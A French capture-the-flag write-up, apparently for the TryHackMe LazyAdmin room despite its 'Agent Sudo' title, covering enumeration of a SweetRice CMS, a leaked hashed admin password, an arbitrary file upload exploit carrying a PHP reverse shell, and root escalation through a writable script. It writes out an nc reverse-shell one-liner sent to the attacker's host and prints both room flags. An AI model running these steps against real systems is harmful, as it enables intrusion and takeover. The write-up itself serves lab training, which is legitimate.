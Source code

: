 # THM - Agent Sudo
<p align="center">
  <img width="450" height="300" src="./img/logo.jpeg">
</p>

Description | Difficulté | Lien
-------------|------------|-----------
Easy linux machine to practice your skills | Easy 🟢| [THM](https://tryhackme.com/room/lazyadmin)


Énumération de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 08:30 EDT
Nmap scan report for <ip>
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Le port intéressant est le 80, un site internet est derrière.

<p align="center">
  <img width="450" height="300" src="./img/apache2.png">
</p>

Énumération web :
```bash
gobuster dir -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
Résultat :
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 08:34:52 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://<ip>/content/]
Progress: 141617 / 141709 (99.94%)
===============================================================
2023/04/01 08:41:12 Finished
===============================================================
```
On apprend que le site est hébergé sur un CMS qui se nomme SweetRice
<p align="center">
  <img width="450" height="300" src="./img/sweetrice.png">
</p>

On essaye donc d'énumérer ce qu'il y a derrière /content
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 09:15:42 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://<ip>/content/images/]
/as                   (Status: 301) [Size: 317] [--> http://<ip>/content/as/]
/js                   (Status: 301) [Size: 317] [--> http://<ip>/content/js/]
/inc                  (Status: 301) [Size: 318] [--> http://<ip>/content/inc/]
/_themes              (Status: 301) [Size: 322] [--> http://<ip>/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://<ip>/content/attachment/]
Progress: 141646 / 141709 (99.96%)
===============================================================
2023/04/01 09:21:34 Finished
===============================================================
```

/as est le portail pour se connecter.

Dans /inc/ il y a un fichier intéressant "mysql_bakup_20191129023059-1.5.1.sql", en parcourant le fichier, on y remarque des informations critiques :
<p align="center">
  <img width="" height="" src="./img/credential.png">
</p>

Le nom de l'administrateur et un mot de passe hashé.

Avec hash-identifier, nous savons que c'est possiblement du MD5
<p align="center">
  <img width="" height="" src="./img/hash-identifier.png">
</p>
<p align="center">
  <img width="" height="" src="./img/dcode.png">
</p>

On sait maintenant que le mot de passe du compte manager est ``Password123``

On se connecte et une information supplémentaire nous apparait, nous sommes en version 1.5.1.

Avec ``searchsploit`` nous déterminons que cette version à une faille d'upload de fichier arbitraire que nous allons tenter d'exploiter.
```
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                   | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                     | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                         | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                           | php/webapps/40700.html
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

On modifie le php de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pour spawn un reverse shell vers notre client.
Et on nomme notre fichier ``shell.php5``

On utilise le script de l'exploit 40716 et le fichier est envoyé.
<p align="center">
  <img width="" height="" src="./img/shell.png">
</p>

Maintenant, on a accès au /home/itguy/ et on remarque qu'un script est dans le home. En regardant le profil de www-data, on remarque qu'il a le droit d'exécuter ``/usr/bin/perl /home/itguy/backup.pl`` avec les droits root.

On profite pour récupérer le flag user qui se trouve dans ``/home/itguy/user.txt``

> **Note**
> Première question : What is the user flag ? ``THM{63e5bce9271952aad1113b6f1ac28a07}``

Et le script /home/itguy/backup.pl est le suivant :
```bash
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Et nos droits sur le fichier ``/etc/copy.sh`` sont en écriture.

On injecte donc un netcat pour nous faire spawn un shell en root :
```bash
echo 'mkfifo /tmp/gizgf; nc <ip-de-lattaquant> <port> 0</tmp/gizgf | /bin/sh >/tmp/gizgf 2>&1; rm /tmp/gizgf' > /etc/copy.sh
```
Et on exécute le script de la manière suivante :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
On est root et on récupère le flag. 
<p align="center">
  <img width="" height="" src="./img/root.png">
</p>

> **Note** 
> Deuxième question : What is the root flag? ``THM{6637f41d0177b6f37cb20d775124699f}``